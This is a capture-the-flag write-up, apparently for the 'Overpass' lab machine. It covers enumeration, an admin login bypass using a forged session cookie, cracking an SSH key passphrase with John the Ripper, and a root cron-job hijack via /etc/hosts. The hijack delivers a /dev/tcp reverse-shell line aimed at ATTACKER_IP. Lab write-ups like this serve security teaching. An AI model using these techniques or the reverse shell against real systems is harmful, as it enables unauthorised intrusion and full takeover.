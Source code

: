 ```yaml
---
title: "Overpass"
tags:
  - Easy
  - Linux
  - nmap
  - john
---
```


| Difficulty |
| ---------- |
|    Easy    |

---

First, I ran an `nmap` scan to enumerate the services that are running on the target machine. The command used is:

```
sudo nmap -sC -sV -vv -oN nmap_initial 10.10.138.135
```

 **Results:**

![screenshot1](../assets/images/overpass/screenshot1.png)

From the results, we can see that there are two open ports on the machine: **SSH** and **HTTP**.

Navigating to the HTTP webserver, I can see the following page:

![screenshot2](../assets/images/overpass/screenshot2.png)

Before carrying out a happy-path enumeration, I shall use `gobuster` to see if I can enumerate any hidden directories. The command used is as such:

```
gobuster dir -u http://10.10.138.135/ -x php,js,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Note that I made sure to check for common extensions such as .php in my directory enumeration.

With Gobuster up and running, I can then begin to explore the page.

The first thing I did was to check the source code of the home page. Doing so, I noticed an interesting comment that was left behind by one of the web developers:

![screenshot3](../assets/images/overpass/screenshot3.png)

This seems to imply that their 'military grade cryptography' is actually one that was used by Romans. Furthermore, it doesn't seem to be very secure by the looks of it.

Could it be the **Caesar Cipher**? I will keep this in mind for now!

Next, on the **Downloads** page, there are some files that we can download. Interestingly, they actually provide the **source code** for their password manager! I made sure to download it, as well as the **Build Script** and the **Precompiled Linux Binary**.

![screenshot4](../assets/images/overpass/screenshot4.png)

Before looking at those files, let me check on the results of Gobuster:

![screenshot5](../assets/images/overpass/screenshot5.png)

Nice, Gobuster managed to find an **admin login page**:

![screenshot6](../assets/images/overpass/screenshot6.png)

I tried some basic SQL injections but they did not work. However, I realized that the login functionality was actually exposed in the **login.js** file that was enumerated. 

![screenshot7](../assets/images/overpass/screenshot7.png)

Looking more closely at the `login()` function, it seems that the credentials that are inputted at the login screen are sent in a POST request to an endpoint **'/api/login'**. The response is then received and the data inside is stored in a variable **statusOrCookie**. There is then a check to verify whether the user is authenticated or not. However, looking at the **else** statement which authenticates the user, if we simply create a **SessionToken** cookie and set any random value,  we will be redirected to the **/admin** page.

Let's test this out in the **developer tools > Storage**. In there, I created a cookie called SessionToken and assigned a value to it.

![screenshot8](../assets/images/overpass/screenshot8.png)

Upon refreshing the page, we can see that I have gained access into the administrator panel.

![screenshot9](../assets/images/overpass/screenshot9.png)

We have an RSA private key, which will probably be used to log into the ssh server that is also running on the machine. The username that uses this key could also be **james**, as he is mentioned explicitly in the message.

Let's copy this private key and try to ssh into the machine.

![screenshot10](../assets/images/overpass/screenshot10.png)

Unfortunately we need to find out the **passphrase** for the RSA key. We can try a dictionary attack using **John the Ripper**, which is a password cracking tool. First, we need to convert the RSA key into a hash that can be cracked by `john`. To do so, we use an auxiliary tool called `ssh2john`. This can be done with the following command:

```
python /usr/share/john/ssh2john.py key_rsa > key_rsa.hash 
```

Now, we can use JTR with the rockyou.txt wordlist and try to crack the passphrase:

```
john --wordlist=/usr/share/wordlists/rockyou.txt key_rsa.hash
```

**Results**

![screenshot11](../assets/images/overpass/screenshot11.png)

Nice! james's private key passphrase is **james13**. Now we can log into the ssh server.

![screenshot12](../assets/images/overpass/screenshot12.png)

Now that we're logged in, we can obtain the user flag from the **home** directory of **james**.

---

Next, we have to a way to escalate our privileges. 

First, I checked out the **todo.txt** file located in the home directory of james.

![screenshot13](../assets/images/overpass/screenshot13.png)

Nice, looks like james's password is stored in the password manager that he implemented. I used the `find` command to located the overpass binary on the target machine.

```
find / -name overpass 2>/dev/null
```

The binary was found in **/usr/bin/overpass**.

I executed the binary and managed to obtain james's password by retrieving all of the saved passwords:

![screenshot14](../assets/images/overpass/screenshot14.png)

james password is **saydrawnlyingpicture**

Next, I'll try and see what **sudo privileges** james has on this machine.

![screenshot15](../assets/images/overpass/screenshot15.png)

Uh oh, looks like james does not have any sudo privileges at all. I will have to try another path of privilege escalation.

To automate the process, I'll be using [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), which is a privilege escalation automation script. After running the script, LinPEAS managed to automate a high potential PE vector.

![screenshot16](../assets/images/overpass/screenshot16.png)

The `* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash` refers to a **cronjob**, which generally has the following format:

![screenshot17](../assets/images/overpass/screenshot17.png)

Essentially, the `*` symbols dictate the frequency of the cronjob. If the user to execute the command/binary is to be set, then their name will be placed right after the symbols. Then, the command to run during each interval will be placed after that. In the case of the example above, the `rm /home/someuser/tmp/*` command will run **every minute** (as shown by 5 * symbols)

How about the cronjob that was found by LinPEAS?

![screenshot18](../assets/images/overpass/screenshot18.png)

This cronjob curls a **buildscript.sh** file from **overpass.thm/downloads/src**  every minute and executes it as it pipes it over to bash. The important thing to note is that this command is **executed as root**. We can exploit this vulnerability by creating our own bashscript.sh which sets up a **reverse shell** that connects back to our host machine. Since our buildscript.sh is piped over to bash and executed as root, the reverse shell that we obtain will be root as well.

Let's set this up!

First, I needed to know what ip address **overpass.thm** points to. Looking at the **/etc/hosts** file on the target machine, we can actually see that overpass.thm points to localhost:

![screenshot19](../assets/images/overpass/screenshot19.png)

I changed the IP address associated with this domain to my own IP address. Now, every time a request is made to overpass.thm, the target machine will check the /etc/hosts file and direct the request to my machine instead.

Next, I created a bash script called **buildscript.sh** with the following command inside:

```
bash -i >& /dev/tcp/ATTACKER_IP/8080 0>&1
```

This is a basic reverse shell command that makes a connection back to port 8080 of my localhost.

Next, I placed this script inside a **/downloads/src** directory within my machine. I then started up a simple http server on **port 80** using python.

Finally, I also set up a netcat listener on port 8080 using the command:

```
nc -lvnp 8080
```

Hence, once a minute passes, the target machine will curl my created **buildscript.sh** and execute it as root, setting up a reverse shell which my netcat listener is currently listening out for.

![screenshot20](../assets/images/overpass/screenshot20.png)

After a minute has passed, we can see that my buildscript.sh was indeed downloaded by the target machine.

![screenshot21](../assets/images/overpass/screenshot21.png)

And with that, I have gained access to the target machine as **root**.

We can then obtain the root flag found in **/root**.

